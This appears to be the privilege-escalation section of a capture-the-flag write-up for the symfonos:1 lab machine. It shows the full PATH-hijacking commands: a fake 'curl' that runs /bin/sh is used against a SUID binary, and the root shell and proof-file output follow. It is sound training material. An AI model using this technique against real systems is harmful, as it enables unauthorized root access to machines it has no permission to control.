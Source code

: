 ```
***curl -I H***
```

statusCheck
: Here statuscheck suid exectable is not using absloute path , we can hijack the curl path with malicious Curl

<h1> PathHijacking</h1>

create a curl and pipe the `bin/bash` using echo
give permission to execute 

```bash
cd /tmp
echo "/bin/sh" > curl
chmod +x curl
export PATH=/tmp:$PATH
/opt/statuscheck
id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
cd /root
ls
proof.txt
cat proof.txt

        Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
 ((\~\           |    )   | '      /        __--~~  \-~~ _-~
    `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
     (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~ 
      ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                   ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                   ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\     
                  ;;;;;;;'   /      ----~~/         `\,~    `\ \        
                  ;;;;'     (      ---~~/         `:::|       `\\.      
                  |'  _      `----~~~~'      /      `:|        ()))),      
            ______/\/~    |                 /        /         (((((())  
          /~;;.____/;;'  /          ___.---(   `;;;/             )))'`))
         / //  _;______;'------~~~~~    |;;/\    /                ((   ( 
        //  \ \                        /  |  \;;,\                 `   
       (<_    \ \                    /',/-----'  _> 
        \_|     \\_                 //~;~~~~~~~~~ 
                 \_|               (,~~   
                                    \~\
                                     ~~

        Contact me via Twitter @zayotic to give feedback!
```